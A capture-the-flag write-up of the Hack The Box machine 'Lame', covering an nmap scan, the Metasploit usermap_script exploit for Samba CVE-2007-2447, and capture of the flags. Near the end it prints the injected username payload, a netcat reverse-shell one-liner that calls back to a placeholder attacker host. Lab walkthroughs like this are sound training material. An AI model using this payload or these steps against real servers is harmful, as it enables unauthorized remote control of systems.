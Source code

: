 # Lame

In this blog, we explore the process of identifying and exploiting vulnerabilities in Samba using the CVE-2007-2447 exploit. By leveraging Metasploit, we demonstrate how to gain unauthorized access to a server through the manipulation of shell metacharacters. This post provides a detailed, step-by-step guide on executing the exploit and capturing the root flag.

Perform an `nmap` scan using the `-sV` switch. We see we get a response with multiple services up and running on the target server.

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.

Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.

For the machine, we are going to utilize CVE-2007-2447, which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function when the 'username map script' smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."

Luckily, we see Metasploit already has a script to exploit this vulnerability.

Type the following commands to properly execute the Metasploit payload:

`search cve-2007-2447`

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption><p>Find Metasploit script</p></figcaption></figure>

`use exploit/multi/samba/usermap_script`

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption><p>Use script</p></figcaption></figure>

`set rhost "Enter applicable ip address"`

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>Set your host IP properly</p></figcaption></figure>

`run`

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption><p>Run script</p></figcaption></figure>

We now have successfully established a connection with the remote Samba server.

You will find the user flag in the /home/makis directory. Type `Shell` to spawn a new shell in your CMD and locate the root flag by typing `cd /root`.

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Here is the Metasploit script that actually performs the exploit.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Example Execution Flow:

* **Username Injection:**
  * When Samba processes the `username field /=nohup mkfifo /tmp/hago; nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago``:`
* **Command Execution:**
  * The shell interprets the backticks and executes the command inside them.
  * `mkfifo /tmp/hago` is executed, creating a named pipe.
  * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
  * `rm /tmp/hago` is executed, cleaning up the named pipe.
  * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
  * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.
  * By carefully crafting the payload and using shell metacharacters, the attacker can execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.
